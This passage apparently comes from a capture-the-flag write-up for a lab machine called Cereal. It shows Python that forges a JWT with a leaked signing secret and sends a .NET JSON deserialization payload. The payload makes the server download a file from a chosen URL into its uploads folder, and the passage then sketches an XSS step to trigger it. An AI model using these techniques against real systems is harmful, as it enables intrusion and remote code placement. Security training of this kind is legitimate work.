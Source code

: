     # Forge JWT
    jwt = jwt.encode({'name': "1", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256")
    headers = {'Authorization': f'Bearer {jwt}', 'Content-Type': 'application/json'}



### Submit Serialized Payload

Next I need to add the request to put the serialized object into the DB.
[This
paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
from Blackhat has a *ton* of information on JSON deserialization.
Looking at the payloads, the format typically goes:



    {"$type": "[class.object]", "[class]", "version=[version]", "[parameter]": "[value]", "[parameter]": "[value]", ...}



I think version is optional, as it's a keyword argument. With some
playing around, I got this:



    # Send DownloadHelper object as JSON
    serial_payload = {"json": "{'$type':'Cereal.DownloadHelper, Cereal','URL':'" + url + "','FilePath': 'C:\\\\inetpub\\\\source\\\\uploads\\\\" + saveas + "'}"}
    resp = requests.post(f'https://{target}/requests', json=serial_payload, headers=headers, verify=False)
    if resp.status_code != 200:
        print('[-] Something went wrong')
        sys.exit()
    serial_id = resp.json()['id']
    print(resp.text)



The JSON payload is a single key, `json`, with a string of JSON as the
value, just like in legit POSTs. It took me a while to figure out that
for the `DownloadHelper` object to be created, it seems like the request
only happens if I give a valid location to write. I found a directory
during enumeration that I can place on disk at
`C:\inetpub\source\uploads`, and that seems like a logical place that
the webserver could write, so I hard-coded that into the script.

### XSS

With the serialized payload in the database, I'm going to use the XSS to
have Cereal make a request to `/requests/[id]`. I can write a `<script>`
tag with JavaScript in it that is executed. I'll have it execute a
`XMLHttpRequest` to fetch the malicious object. I'll need to add the JWT
token in as a header as well.
